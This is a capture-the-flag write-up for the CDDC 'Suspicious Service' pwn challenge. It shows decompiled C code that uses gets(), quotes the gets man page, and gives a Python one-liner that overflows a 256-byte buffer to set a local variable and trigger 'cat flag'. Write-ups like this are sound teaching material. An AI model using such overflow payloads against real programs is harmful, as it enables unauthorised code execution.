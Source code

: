 ```yaml
---
title: CDDC [Suspicious Service]
author: Jason Chua (Coldspot)
date: 2020-07-8 21:24:30 +0800
categories: [CTF, CDDC]
tags: [tech, pwn, bof]
toc: true
comments: true
---
```


On the initial connection, this binary does not prints out anything and just waits for an input. Luckily, the binary was compiled with debugging symbols. This will make reversing much simpler.

<!--more-->

# Decompilation
Looking at the main function, we could guess that FUN_000110a0 is a gets function. Our job is to overwrite the local variable "local_c" to 0x1343d00 to run the `cat flag` command.

```c
undefined4 main(void)

{
  undefined local_10c [256];
  int local_c;
  
  FUN_00011090(stdin,0);
  FUN_00011090(stdout,0);
  FUN_00011090(stderr,0);
  local_c = 0x12345678;
  FUN_000110a0(local_10c);
  if (local_c == 0x1343d00) {
    FUN_000110b0("cat flag");
  }
  return 0;
}
```

```
GETS(3)       Linux Programmer's Manual

NAME
        gets - get a string from standard input (DEPRECATED)

SYNOPSIS
        #include <stdio.h>

        char *gets(char *s);

DESCRIPTION
        Never use this function.

        gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0').  No check for buffer overrun is performed (see BUGS below).
```

# Exploit

Our plan of action is to overwrite `local_c` by overflowing the buffer allocated for `local_10c`


This simple one-liner will overflow the buffer for the local_10c and overwrite the local_c variable.


```bash
python -c "import struct; print('A' * 256 + struct.pack('<I', 0x1343d00))" | .⁄SuspiciousSvc
```


More info 
> Ask me on Discord @Coldspot#7033
